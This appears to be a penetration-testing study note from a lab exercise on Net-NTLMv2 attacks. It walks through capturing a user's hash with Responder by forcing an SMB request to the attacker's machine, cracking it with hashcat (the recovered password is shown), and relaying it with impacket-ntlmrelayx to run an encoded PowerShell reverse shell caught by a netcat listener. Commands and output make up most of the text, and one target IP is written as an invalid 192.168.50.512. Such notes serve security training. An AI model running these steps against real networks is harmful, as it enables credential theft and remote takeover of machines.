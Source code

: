 # NTLMv2

New Technology Network Manager v2 is, you guessed it, the updated (and more widely used) version of NTLM. It is stored as **HMAC-MD5** hash in SAM.

NTLMv2's challenge is a timestamp rather than a randomly generated number (NTLM), the timestamp is hashed with the users password and is sent as the response.

## Cracking Net-NTLMv2

### Responder

Responder includes a built-in SMB server that handles the authentication process for us and prints all captured Net-NTLMv2 hashes.

{% embed url="https://www.kali.org/tools/responder/" %}

### Start Responder

<pre class="language-powershell"><code class="lang-powershell">kali@kali:~$ ip a
...
3: tap0: &#x3C;BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 1000
    link/ether 42:11:48:1b:55:18 brd ff:ff:ff:ff:ff:ff
    inet <a data-footnote-ref href="#user-content-fn-1">192.168.119.2</a>/24 scope global tap0
       valid_lft forever preferred_lft forever
    inet6 fe80::4011:48ff:fe1b:5518/64 scope link 
       valid_lft forever preferred_lft forever

kali@kali:~$ sudo responder -I tap0 
<strong>                                         __
</strong>  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR &#x26; MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C
...
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
...
[+] Listening for events... 
</code></pre>

### Request Access to Non-Existent Share

We want to request access to a share that we don't have access to in order to query the authentication protocol. _<mark style="color:red;">**Note**</mark>_: **The IP we're querying is the IP of our Kali machine!**&#x20;

```powershell
C:\Windows\system32>dir \\192.168.119.2\test
dir \\192.168.119.2\test
Access is denied.
```

### Capturing NTLMv2 Hash

```
...
[+] Listening for events... 
[SMB] NTLMv2-SSP Client   : ::ffff:192.168.50.211
[SMB] NTLMv2-SSP Username : FILES01\paul
[SMB] NTLMv2-SSP Hash     : paul::FILES01:1f9d4c51f6e74653:795F138EC69C274D0FD53BB32908A72B:
010100000000000000B050CD1777D801B7585DF5719A
CFBA0000000002000800360057004D00520001001E00570049004E002D00340
044004E004800550058004300340054004900430004003400570049004E002D
00340044004E00480055005800430034005400490043002E00360057004D005
2002E004C004F00430041004C0003001400360057004D0052002E004C004F00
430041004C0005001400360057004D0052002E004C004F00430041004C00070
0080000B050CD1777D801060004000200000008003000300000000000000...
```

### Cracking with Hashcat

We'll save the output of reponder and use Hashcat with our wordlist to crack the NTLMv2 hash.

```shell-session
kali@kali:~$ hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
hashcat (v6.2.5) starting
...

PAUL::FILES01:1f9d4c51f6e...00000000000000:123Password123
...
```



## Relaying Net-NTLMv2

Sometimes we obtain a Net-NTLMv2 hash but cant crack it. **If the hash we obtained is from a local administrator, we can use it to authenticate over SMB** like we do with psexec or wmiexec.

### NTLM_relayx - Impacket_

_We can use NTLMrelayx from impacket to relay the hash over SMB._

```
kali@kali:~$ impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..." 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

**--no-http-server** disables the use of HTTP since we'll be using SMB manually.

**192.168.50.512** is the target. (The box we're trying to get access to)\
**powershell -enc JABjAGwAaQBl..** is the command to execute once authenticated. (Reverse shell)

### Start Listener

We will start a listener on our Attack host to catch the incoming response shell.

```
kali@kali$ nc -nvlp 8080
```

### Request Access to Non-Existent Share

Like we do with Responder, we will query our Attack host for a share to catch the Hash.

```
C:\Windows\system32>dir \\192.168.119.2\test
Access is denied.
```

#### Check Back on the NC Listener and you should have a shell! (Assuming your powershell command works)

_<mark style="color:red;">**NOTE:**</mark>_ Here are some resources for building a powershell command to be executed once the Net-NTLMv2 hash is relayed. (By Impacket)

AGAIN FOR RELAYING TO WORK WE MUST HAVE LOCAL ADMIN!&#x20;

{% embed url="https://www.revshells.com/" %}

[^1]: 
